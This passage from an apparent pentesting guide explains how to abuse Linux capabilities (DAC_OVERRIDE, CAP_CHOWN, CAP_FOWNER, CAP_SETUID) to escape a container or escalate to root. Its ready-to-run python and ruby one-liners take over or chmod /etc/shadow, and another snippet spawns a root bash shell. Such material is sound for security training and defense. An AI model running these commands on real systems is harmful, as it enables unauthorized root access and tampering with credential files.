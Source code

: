 In order to scape the docker container you could **download** the files `/etc/shadow` and `/etc/passwd` from the host, **add** to them a **new user**, and use **`shocker_write`** to overwrite them. Then, **access** via **ssh**.

**The code of this technique was copied from the laboratory of "Abusing DAC\_OVERRIDE Capability" from** [**https://www.pentesteracademy.com**](https://www.pentesteracademy.com)

### CAP\_CHOWN

**This means that it's possible to change the ownership of any file.**

#### Example with binary

Lets suppose the **`python`** binary has this capability, you can **change** the **owner** of the **shadow** file, **change root password**, and escalate privileges:

```bash
python -c 'import os;os.chown("/etc/shadow",1000,1000)'
```

Or with the **`ruby`** binary having this capability:

```bash
ruby -e 'require "fileutils"; FileUtils.chown(1000, 1000, "/etc/shadow")'
```

### CAP\_FOWNER

**This means that it's possible to change the permission of any file.**

#### Example with binary

If python has this capability you can modify the permissions of the shadow file, **change root password**, and escalate privileges:

```bash
python -c 'import os;os.chmod("/etc/shadow",0666)
```

### CAP\_SETUID

**This means that it's possible to set the effective user id of the created process.**

#### Example with binary

If python has this **capability**, you can very easily abuse it to escalate privileges to root:

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

**Another way:**

```python
import os
import prctl
#add the capability to the effective set
prctl.cap_effective.setuid = True
os.setuid(0)
os.system("/bin/bash")
```
